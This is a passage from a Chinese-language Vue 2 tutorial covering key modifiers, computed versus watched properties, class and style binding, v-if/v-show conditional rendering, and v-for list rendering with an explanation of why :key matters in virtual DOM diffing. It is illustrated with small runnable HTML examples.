**按键修饰符**也是可以**连用**的，对特定的`ctrl`+`x`进行识别（识别`x`，上面的不能识别`x`是谁），只允许这样的组合键触发事件回调函数。

```html
<!-- 只有当ctrl+7才走showInfo函数 -->
<input type="text" placeholder="按下回车提示输入的值" @keyup.ctrl.7="showInfo" />
```

---

**总结拓展**：

1. 常见的**按键修饰符**：`enter`回车，`delete`删除或退格，`esc`退出，`space`空格，`tab`换行，`up`、`down`、`left`、`right`是上下左右。
2. Vue**未提供**按键修饰符的按键，可以使用按键**原始的 key 值**去绑定，但注意要转换为`xxx-xxx`（**短横线命名**）的形式。
3. **系统修饰键**，`ctrl`、`alt`、`shift`、`meta`：
   1. 配合`keyup`使用：按下系统键的**同时**，再按下其他键，随后**释放其他键**，事件才被触发；
   2. 配合`keydown`使用：**正常**触发事件。
4. 也可以使用`keyCode`去指定具体的按键，但不推荐，因为 keyCode 标准**已被弃用**了。
5. `Vue.config.keyCodes.自定义键名 = 键码;`，可以去**定制**按键修饰符，但**不太推荐**。

---

## 四、计算属性和监视属性

### 4.1 计算属性

有个经典的需求，输入“姓”和“名”，可以展示“全名”，**动态修改**“姓”或“名”时，全名也要**跟着改变**。很简单呀，“姓”、“名”和“全名”我都使用**插值**来实现。但是如果出现全名的“**展示位数限制**”或“**大小写转换**”等，那“全名”的**插值**就会比较**复杂**，这不符合[Vue 风格指南-模板中简单的表达式](https://cn.vuejs.org/v2/style-guide)，推荐使用**方法**或**计算属性**。

```html
<!-- 不符合“模板中简单的表达式”建议，推荐使用方法或计算属性 -->
全名：<span>{{lastName.slice(0, 3).toUpperCase()}}-{{firstName.slice(0, 3).toUpperCase()}}</span>
```

使用**插值**搭配**方法**（methods）的方案，代码如下。这方案**有可优化点的**，如果页面使用`fullName`的地方**有很多**，那就会**调用很多次**，如果有**缓存**就好了；data 数据更新时，模板会重新解析，即使是与“全名”**无关的属性更新了**也会导致`fullName`**再次调用**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      测试：<input type="text" v-model="x" /><br /><br /><!-- 它改变也会让fullName调用 -->
      全名：<span>{{fullName()}}</span><br /><br />
      全名：<span>{{fullName()}}</span><br /><br />
      全名：<span>{{fullName()}}</span><br /><br />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: "张",
          firstName: "三",
          x: "测试",
        },
        methods: {
          fullName() {
            // 页面有几次调用，就执行几次，没有缓存可言
            console.log("调用fullName");
            // 在这里随意你做字符串长度限制，或者反转，或者大小写变换
            return this.lastName + "-" + this.firstName;
          },
        },
      });
    </script>
  </body>
</html>
```

Vue 提供的**计算属性**解决了上面的两个问题，并且如果修改“全名”也能让对应的“姓”和“名”**随之修改**。**计算属性**是定义在`computed`里的（`computed`与`methods`平级），它根据`data`里的属性**计算出来的**，并且它对外提供 getter/setter 供其他人**读取**和**修改**（也是用`Object.defineProperty()`实现）。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      测试：<input type="text" v-model="x" /><br /><br /><!-- 它不影响fullName -->
      全名：<span>{{fullName}}</span><br /><br /><!-- fullName会出现在vm上 -->
      全名：<span>{{fullName}}</span><br /><br />
      全名：<span>{{fullName}}</span><br /><br />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: "张",
          firstName: "三",
          x: "测试",
        },
        computed: {
          fullName: {
            // 初次读取fullName时被调用，在所依赖属性数据改变时也会被调用
            get() {
              console.log("调用fullName-get");
              return this.lastName + "-" + this.firstName;
            },
            // 在修改fullName时被调用
            set(value) {
              console.log("调用fullName-set");
              const str = value.split("-");
              this.lastName = str[0];
              this.firstName = str[1];
            },
          },
        },
      });
    </script>
  </body>
</html>
```

**计算属性**是可以**简写**的，当**没有 set 方法只有 get 方法**时，可以直接将计算属性**写成方法**，方法体就是 get 的方法体。但是在模板中还是以**属性**的形式来使用，意思是你**不要**加上`()`弄成**函数调用**了。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      全名：<span>{{fullName}}</span><br /><br /><!-- 不要弄成函数调用 -->
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: "张",
          firstName: "三",
        },
        computed: {
          // 没有set方法只有get方法时可简写
          fullName() {
            return this.lastName + "-" + this.firstName;
          },
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. 计算属性定义：要用的属性**不存在**，通过已有属性**计算**得来。
2. 计算属性原理：底层借助了`Object.defineProperty()`提供的 getter/setter。
3. 计算属性的 get 在**初次读取**时被**调用一次**，也会在**所依赖属性**改变时被调用。
4. 计算属性优势：与 methods 实现相比，内部有**缓存机制**（能复用），还可以排除**无关属性**的影响。
5. 计算属性可以在**没有 set 方法只有 get 方法**情况下**简写**，使用处还是**属性**的形式。

---

### 4.2 监视属性

上一小节的例子可以用**监视属性**实现，**监视属性**就是用来**监视**某些属性的**变化**，然后做一些**对应的操作**。监视属性定义在`watch`里（`watch`与`computed`和`methods`平级），`watch`里的常用**handler**来**处理操作**（`computed`则是 getter/setter）。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      全名：<span>{{fullName}}</span><br /><br /><!-- fullName会出现在vm上 -->
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: "张",
          firstName: "三",
          fullName: "张-三",
        },
        watch: {
          lastName: {
            // watch里的handler 对应 computed里的getter/setter
            handler(newVal, oldVal) {
              this.fullName = newVal + "-" + this.firstName;
            },
          },
          firstName: {
            handler(newVal, oldVal) {
              this.fullName = this.lastName + "-" + newVal;
            },
          },
        },
      });
    </script>
  </body>
</html>
```

`watch`还有两个**常用**的配置，**immediate 配置**表示是否在**初始化时**就让**handler**调用一次（默认值是`false`），**deep 配置**表示是否进行**深度监视**（默认值是`false`）。还有一点，如果你不清楚在**Vue 实例创建时**该怎么监视属性，那么可以在**Vue 实例创建完**再**监视**属性，写法`vm.$watch('xxx', {});`，xxx 就是要监视的**属性**，{}同之前的写法一样。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      全名：<span>{{fullName}}</span><br /><br /><!-- fullName会出现在vm上 -->
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: { a: "张", b: "1" },
          firstName: "三",
          fullName: "张-三",
        },
        watch: {
          lastName: {
            immediate: true, // 初始化时让handler调用一次
            deep: true, // 深度监视
            handler(newVal, oldVal) {
              // lastName变化了会执行handler
              console.log("watch-lastName");
              this.fullName = newVal + "-" + this.firstName;
            },
          },
          firstName: {
            // 正常写法只有handler
            handler(newVal, oldVal) {
              console.log("watch-firstName");
              this.fullName = this.lastName + "-" + newVal;
            },
          },
        },
      });
      // vm创建完后再去监视属性
      /* vm.$watch('lastName', {
            immediate: true, // 初始化时让handler调用一次
            deep: true, // 深度监视
            handler(newVal, oldVal) { // lastName变化了会执行handler
                console.log('watch-lastName');
                this.fullName = newVal + '-' + this.firstName;
            }
        });
        vm.$watch('firstName', {
            // 正常写法只有handler
            handler(newVal, oldVal) {
                console.log('watch-firstName');
                this.fullName = this.lastName + '-' + newVal;
            }
        }); */
    </script>
  </body>
</html>
```



`watch`也是可以**简写**的，当`immediate`和`deep`两配置项是**默认值可省略**时，可以将`handler`的**函数形式**直接给监视属性用。

```js
watch: {
    // 正常写法
    lastName: {
        immediate: true,
        deep: true,
        handler(newVal, oldVal) {
            console.log('watch-lastName');
            this.fullName = newVal + '-' + this.firstName;
        }
    },
    // 没有immediate和deep后可简写
    firstName(newVal, oldVal) {
        console.log('watch-firstName');
        this.fullName = this.lastName + '-' + newVal;
    }
}
```

---

**总结拓展**：

1. 当被监视的属性**变化**时，`handler`函数自动被调用，进行相关操作。
2. 监视的属性**必须存在**，才能进行监视！
3. 监视属性有两种写法，1) `new Vue()`时传入**watch 配置**，2)通过`vm.$watch`监视。
4. Vue 给我们提供的`watch`是默认**不**开启**深度监视**的，但是 Vue 在自己框架里[监视数据](./1.vue基础.md#七、vue的数据监视)还是用的**深度监视**。
5. 如果开发人员需要对监视属性进行**对象内部值改变**的监视（**深度监视**），那就自己写上配置`deep: true`。
6. 监视属性可在`immediate`和`deep`两配置项**处于默认值**时**简写**，监视属性直接使用`handler`的函数形式。

---

### 4.3 监视属性对比计算属性

我们整理一下同一需求，监视属性和计算属性的代码：

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>计算属性</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      全名：<span>{{fullName}}</span><br /><br />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: "张",
          firstName: "三",
        },
        computed: {
          // 只有getter，没有setter时，计算属性简写
          fullName() {
            return this.lastName + "-" + this.firstName;
          },
        },
      });
    </script>
  </body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>监视属性</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      全名：<span>{{fullName}}</span><br /><br /><!-- fullName会出现在vm上 -->
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: "张",
          firstName: "三",
          fullName: "张-三",
        },
        watch: {
          // immediate和deep处于默认值false时，监视属性简写，并省略了handler
          lastName(newVal, oldVal) {
            this.fullName = newVal + "-" + this.firstName;
          },
          firstName(newVal, oldVal) {
            this.fullName = this.lastName + "-" + newVal;
          },
        },
      });
    </script>
  </body>
</html>
```

我们会发现**监视属性**的代码会**繁杂**一点（**命令式且重复**），这样看来还是**计算属性**用起来**会好些**是吧。但是呢在有些场景不能这样说，**监视属性**中可使用**异步操作**（`setTimeout`、`ajax`请求等），而**计算属性**就不行了。还有要注意的是，**异步操作**的回调函数的**this**一定要注意是指向`vm`还是`Window`。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓：<input type="text" v-model="lastName" /><br /><br />
      名：<input type="text" v-model="firstName" /><br /><br />
      全名：<span>{{fullName}}</span><br /><br /><!-- fullName会出现在vm上 -->
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          lastName: "张",
          firstName: "三",
          fullName: "张-三",
        },
        watch: {
          // 监视属性可使用异步操作，而计算属性不能使用
          lastName(newVal, oldVal) {
            // 使用箭头函数是为了让this指向vm
            setTimeout(() => {
              console.log("watch-lastName");
              this.fullName = newVal + "-" + this.firstName;
            }, 1000);
          },
          firstName(newVal, oldVal) {
            console.log("watch-firstName");
            this.fullName = this.lastName + "-" + newVal;
          },
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. 计算属性能完成的功能，监视属性**也能**完成，虽然代码会**繁杂**点。
2. 监视属性能完成的功能，计算属性就**不一定**了，比如**异步操作**。
3. 被 Vue 实例管理的函数，最好写成**普通函数**，让 this 指向**vm**或组件**实例**对象。
4. 不被 Vue 实例管理的函数（`setTimeout`和`ajax`的回调函数），最好写成**箭头函数**（会向外找）。

---

## 五、在 Vue 中使用样式

### 5.1 绑定 class 样式

在对 html 进行**样式**修改时，你可能会想到使用**class**配合**js 代码**来修改`className`从而达到**动态控制**样式，例如下面的代码片段：

```js
// className原值是'basic'，触发某个事件将它修改为'basic addBg'
document.getElementById("outer").className = "basic addBg";
```

在 Vue 中最好不要直接操作 DOM，Vue 是可以对`class`使用**v-bind**指令，将 data 数据绑定到`class`，再使用 methods 里的方法去修改对应的数据，已达到动态修改样式的目的。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <style>
      .basic {
        width: 200px;
        height: 100px;
        border: 1px red solid;
      }
      .addBg {
        background-color: royalblue;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <!-- 绑定class与data数据，最后:class会和class进行合并 -->
      <div class="basic" :class="classMsg" @click="change">点击我，样式会变化</div>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三",
          classMsg: "",
        },
        methods: {
          // 修改:class绑定的数据
          change() {
            this.classMsg = "addBg";
          },
        },
      });
    </script>
  </body>
</html>
```

上面那个例子`:class`的值用的是**字符串**，但我想加入或删除**多个**class 样式呢？`:class`的值可以使用**数组**，使用数组就可以加/删**多个**class 样式。Vue 解析模板时会把`:class`数组形式**打散成字符串**并与**现存**的 class**合并**。

`:class`的值除了可以使用**数组**，还能使用**对象**。那使用对象是为了什么场景呢？它比较适合 class 样式**个数不太多**，但能**动态搭配**这些 class 样式。对象中的`key-value`的`value`是**布尔值**，是用作各样式的**开关**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <style>
      .basic {
        width: 200px;
        height: 100px;
        border: 1px red solid;
      }
      .addBg {
        background-color: royalblue;
      }
      .addRadius {
        border-radius: 20px;
      }
      .addGrad {
        background-image: linear-gradient(to right, red, yellow);
      }
    </style>
  </head>
  <body>
    <div id="root">
      <!-- :class的值使用字符串形式，适用于单个样式动态修改 -->
      <div class="basic" :class="classStr" @click="changeClassStr">点击我！:class是字符串形式</div>
      <br /><br />
      <!-- :class的值使用数组形式，适用于样式很多的样式，也只是简单的修改 -->
      <div class="basic" :class="classArr" @click="changeClassArr">点击我！:class是数组形式</div>
      <br /><br />
      <!-- :class的值使用对象形式，适用于样式数量一般的场景，动态搭配对象中各种样式 -->
      <div class="basic" :class="classObj" @click="changeClassObj">点击我！:class是对象形式</div>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const classMsg = ["addBg", "addRadius", "addGrad"];
      const vm = new Vue({
        el: "#root",
        data: {
          classStr: "", // 字符串形式
          classArr: [], // 数组形式
          classObj: {
            // 对象形式
            addBg: false, // 布尔值作为样式使用开关，动态搭配各种样式
            addRadius: false,
            addGrad: false,
          },
        },
        methods: {
          changeClassStr() {
            // 随机出现0, 1, 2中的一个
            const index = Math.floor(Math.random(0, 1) * 3);
            this.classStr = classMsg[index];
          },
          changeClassArr() {
            // 随机出现0, 1, 2, 3, 4中的一个
            const index = Math.floor(Math.random(0, 1) * 4);
            // 截取[0, index)
            this.classArr = classMsg.slice(0, index);
          },
          changeClassObj() {
            // 随机出现0, 1, 2中的一个
            const index = Math.floor(Math.random(0, 1) * 3);
            const className = classMsg[index];
            // 随意让其中一个改变值
            this.classObj[className] = !this.classObj[className];
          },
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. class 样式写法`:class="xxx"`，其中 xxx 可以是**字符串、数组、对象**。
2. **字符串**的写法适用于：**单个**样式的动态修改。
3. **数组**的写法适用于：数量可能**非常多**的样式，能**简单的**修改使用样式。
4. **对象**的写法适用于：数量可能**一般多**的样式，能便捷、**动态搭配**使用样式。

---

### 5.2 绑定 style 样式

**内联 style 样式**用的场景**很少**，一般使用 class 样式就够用了。但这里还是稍微介绍一下，style 也同 class 一样使用**v-bind**绑定 data 相关数据，达到**动态修改**的目的。`:style`的值一般是**对象**（例如`{fontSize: xxx}`），极少的情况会是**数组**（每一项也是**对象**，例如`{fontSize: xxx}`），这种对象的**属性名**（样式名）要是**首字母小写的驼峰命名**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <style>
      .basic {
        width: 200px;
        height: 100px;
        border: 1px red solid;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <!-- :style的值使用字符串形式，使用场景稍多一点点 -->
      <div class="basic" :style="styleObj" @click="changeStyleObj">点击我！:style是字符串形式</div>
      <br /><br />
      <!-- :style的值使用数组形式，使用场景很少 -->
      <div class="basic" :style="styleArr" @click="changeStyleArr">点击我！:style是数组形式</div>
      <br /><br />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      // 样式对象，属性名（样式名）使用首字母小写的驼峰式
      const addBg = { backgroundColor: "royalblue" }; // 在css中是 background-color: royalblue;
      const addRadius = { borderRadius: "20px" }; // 在css中是 border-radius: 20px;
      // 在css中是 background-image: linear-gradient(to right, red, yellow);
      const addGrad = { backgroundImage: `linear-gradient(to right, red, yellow)` };
      // 组成数组
      const classMsg = [addBg, addRadius, addGrad];
      const vm = new Vue({
        el: "#root",
        data: {
          styleObj: {}, // 对象形式
          styleArr: [], // 数组形式，其实就是用[]包裹styleObj这样的对象
        },
        methods: {
          changeStyleObj() {
            // 随机出现0, 1, 2中的一个
            const index = Math.floor(Math.random(0, 1) * 3);
            this.styleObj = classMsg[index];
          },
          changeStyleArr() {
            // 随机出现0, 1, 2, 3, 4中的一个
            const index = Math.floor(Math.random(0, 1) * 4);
            // 截取[0, index)
            this.styleArr = classMsg.slice(0, index);
          },
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. style 样式的**对象**写法`:style="{fontSize: xxx}"`，xxx 是动态值。
2. style 样式的**数组**写法`:style="[a, b]"`，`a`和`b`其实是`{fontSize: xxx}`这样的对象。

---

## 六、条件渲染和列表渲染

### 6.1 条件渲染

经常有需求让页面的某个元素**时而显示时而隐藏**，在 Vue 中使用的是`v-show`和`v-if`指令。他们的值表面上是**js 表达式**，最后都会自动转换成**布尔值**。这两个指令最明显的**区别**就是，`v-show`让元素**隐藏**但元素的**DOM 结构还在**（使用了`style="display: none;"`），`v-if`是**直接删除/增加**了元素的**DOM**（包括事件监听器），那么在**高频率**操作“隐藏/显示”时使用`v-show`更好。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- v-show v-if -->
      <h2 v-show="showStatus">你好</h2>
      <br />
      <button @click="showStatus = !showStatus">隐藏/显示</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          showStatus: true,
        },
      });
    </script>
  </body>
</html>
```

在 js 中`if`经常联合使用`if else`和`else`，在 Vue 也可以`v-if`搭配`v-if-else`和`v-else`。联合使用`v-if`、`v-if-else`和`v-else`时，会比**同时使用**多个`v-if`要强。因为**联合使用**场景下只要**达到其中一个条件**的判断，其他分支就**不会进行**了；而同时使用多个`v-if`，每个`v-if`**都会进行判断**。然后需要注意**联合使用**的时候，`v-if`、`v-if-else`和`v-else`这三个元素所在之间**不能**被其他结构“**打断**”，否则只生效**打断地点前面**的`v-if`并且还会在控制台**报错**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h1>a数值现在是：{{a}}</h1>
      <br />
      <button @click="a++">点击，a++</button><br />
      <h2 v-if="a === 1">你好，a === 1</h2>
      <br />
      <h2 v-if="a === 2">你好，a === 2</h2>
      <br />
      <h2 v-if="a === 3">你好，a === 3</h2>
      <br />
      <h2 v-if="a === 4">你好，a === 4</h2>
      <br />
      <hr />
      <h1>b数值现在是：{{b}}</h1>
      <br />
      <button @click="b++">点击，b++</button><br />
      <h2 v-if="b === 1">你好，b === 1</h2>
      <!-- 这里就不要加br了，否则只生效前面的 -->
      <h2 v-else-if="b === 2">你好，b === 2</h2>
      <!-- 这里就不要加br了，否则只生效前面的 -->
      <h2 v-else-if="b === 3">你好，b === 3</h2>
      <!-- 这里就不要加br了，否则只生效前面的 -->
      <h2 v-else="b === 4">你好，b === 4</h2>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          a: 0,
          b: 0,
        },
      });
    </script>
  </body>
</html>
```

如果要让**一块区域**的元素**集体隐藏 or 显示**，虽然是可以**使用容器包裹**它们再使用`v-show`或`v-if`，但这样就**额外引入**了元素，如果没影响还好，有影响就麻烦了。Vue 考虑到了这点，提供了`<template>`**模板**，这个`<template>`**不影响结构不会引入额外的元素**。值得注意的是`<template>`**只能搭配**`v-if`（还有`v-if-else`和`v-else`）使用。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- template不会影响结构不会引入额外的元素 -->
      <template v-if="loginType === 'username'">
        <label>Username</label>
        <input placeholder="Enter your username" />
      </template>
      <template v-else>
        <label>Email</label>
        <input placeholder="Enter your email address" />
      </template>
      <button @click="loginType = loginType === 'username' ? 'email' : 'username'">点击切换模式</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          loginType: "username",
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. v-if：
   1. 写法： 1) `v-if="js表达式"` 2) `v-else-if="js表达式"` 3) `v-else="js表达式"`。
   2. 适用于：切换频率较**低**的场景。
   3. 特点：不展示的 DOM 直接**被删除**。
   4. 注意：`v-if`、`v-else-if`和`v-else`可以**联合使用**，但要求结构不能被“**打断**”。
2. v-show：
   1. 写法： `v-show="js表达式"`。
   2. 适用于：切换频率较**高**的场景。
   3. 特点：不展示的 DOM**未被删除**，仅仅使用**样式**隐藏掉。

---

### 6.2 列表渲染

我们经常使用`ul-li`这样的**列表结构**来展示一个**列表**，Vue 使用`v-for`指令将**列表结构**和**列表数据**组织起来。首先得注意的是`v-for`是写在**item**（例如`<li>`）的**属性**位置上的。

`v-for="xxx"`的**xxx**通常是`for-in`的形式（`for-of`也可以），例如`<li v-for="p in persons"></li>`，这个`persons`是存储在 data 里的**列表数据**，而这个`p`是`v-for`语句里的形参（存储的是遍历出来的**单项数据**）。那么`<li>`**标签体的内容**就可以使用`p`这个**单项数据**了（用**插值**`{{p.xxx}}`的形式）。如果要使用**索引**`index`，那将`p`改为`(p, index)`，整体写下来就是`v-for="(p, index) in persons"`。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>人员信息列表（遍历数组）</h2>
      <ul>
        <!-- v-for要写在单项也就是li上，其值是for-in的形式。li的标签体用p来填写（插值） -->
        <li v-for="p in persons" :key="p.id">{{p.id}}-{{p.name}}-{{p.age}}</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          persons: [
            { id: "001", name: "张三", age: 18 },
            { id: "002", name: "李四", age: 19 },
            { id: "003", name: "王五", age: 20 },
          ],
        },
      });
    </script>
  </body>
</html>
```

`v-for="xxx"`的 xxx 除了是**数组**以外，还可以是**对象**，其实**还能**是**字符串**和**数值**（这两个**用得少**）。用在**对象**上就是遍历对象的**属性**，通常是`<li v-for="(value, key) in obj">`，`value`是属性**值**，`key`是属性**名**；用在**字符串**上就是遍历字符串的**字符**，通常是`<li v-for="(value, index) in str">`，`value`是**字符**，`index`是**索引**；用在数值上就是单纯**遍历数值**，数值从`1`开始的，但**索引**是从`0`开始的。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- v-for用在对象上 -->
      <h2>汽车信息（遍历对象）</h2>
      <ul>
        <li v-for="(val, k) in car" :key="k">{{k}}-{{val}}</li>
      </ul>
      <!-- v-for用在字符串上 -->
      <h2>遍历字符串hello</h2>
      <ul>
        <li v-for="(char, index) in str" :key="index">{{index}}-{{char}}</li>
      </ul>
      <!-- v-for用在数值上 -->
      <h2>遍历数值5</h2>
      <ul>
        <li v-for="(num, index) in 5" :key="index">{{index}}-{{num}}</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          car: { name: "奥迪A8", price: "70万", color: "黑色" },
          str: "hello",
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. `v-for`指令用于展示**列表数据**。
2. 语法：`v-for="(item, index) in xxx" :key="yyy"`，item 时单项数据，index 是索引，xxx 是列表数据，yyy 是唯一标识。
3. `v-for`可遍历数组、对象、字符串、数值，后两个用得少。

---

### 6.3 key 作用和简单 diff 分析

前一小节例子里的`:key="p.id"`**不要**省略不写，这个**key**会被存放到**虚拟 DOM**里作为**唯一标识**来使用的，但它并不存在于**真实 DOM**里。如果给**列表数据**新增一条数据，重新渲染列表，Vue 会将**新**虚拟 DOM 与**旧**虚拟 DOM 进行对比，按照 key 来选择**谁与谁**对比，**内容不变**的直接使用**已存在**的**真实 DOM**来展示，**内容变了**的**新建真实 DOM**来展示。

整个**虚拟**DOM 结构里可能就只有**某局部**一小块**改变**了，那就只**更新那一小块**（甚至只是文本的**替换**），这样重新渲染会很高效。看下面这个图，Vue 认为整个虚拟 DOM 结构中只有**key**为`004`的需要**新建真实 DOM**，其他虚拟 DOM 的**内容没有变**，那将对应的真实 DOM**照搬拿来**使用即可。


**key**绑定`id`不会有什么问题，而**key**绑定`index`**可能**会出现问题。下面这个例子，如果将新`<li>`添加到列表**开头**，表面上看没什么问题，实际上多了许多**没必要的真实 DOM 渲染**；再进一步放大问题，如果`<li>`还包含了`<input>`，那**输入框文本内容**在**重新渲染后**会出现**串行**的问题。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>人员信息列表</h2>
      <ul>
        <button @click="add">新增一个老刘</button>
        <!-- 让key绑定index，看会出现什么问题 -->
        <li v-for="(p, index) in persons" :key="index">{{p.name}}-{{p.age}} <input type="text" /></li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          persons: [
            { id: "001", name: "张三", age: 18 },
            { id: "002", name: "李四", age: 19 },
            { id: "003", name: "王五", age: 20 },
          ],
        },
        methods: {
          add() {
            // 添加新数据到列表 开头
            this.persons.unshift({ id: "004", name: "老刘", age: 30 });
          },
        },
      });
    </script>
  </body>
</html>
```


上面的问题是主要因为`index`索引被**重新分配**了，导致 key 的“**一一对应**”已经**达不到期望**的那样，如下图。

- “**没必要的真实 DOM 渲染**”的问题，是每次的比较 Vue 认为你每一项的**text 文本内容**都**变了**（因为 key 对不上了，或者说对歪了），这就会让每项重新使用**新**虚拟 DOM 的**text 真实文本**，例如**key**为`0`的**新**虚拟 DOM 的“老刘-30”会**覆盖**以前**key**为`0`的“张三-18”。
- “**输入框 text 会出现串行**”的问题，是 Vue 认为**新旧**虚拟 DOM 的**子元素 input**是**相同的**，然后拿以前 input 对应的**真实 DOM**来渲染展示。例如**key**为`0`的`<li>`的**子元素 input**会使用以前**key**为`0`的**子元素 input**的**真实 input**，那就会出行“老刘-30”文本后紧跟 input 的输入内容是“张三-18”。


你可能会疑惑“**子元素 input 是相同的**”，不是输入内容不一样吗？其实 Vue 对**input 类**的虚拟 DOM 的比较，没有涉及到输入组件的`value`。`vm._vnode.children`逐层可以找到 input 的**虚拟 DOM 信息**。可以从 diff 算法的源代码简单分析，没有对**input 类**的新旧虚拟 DOM 的`value`进行比对。

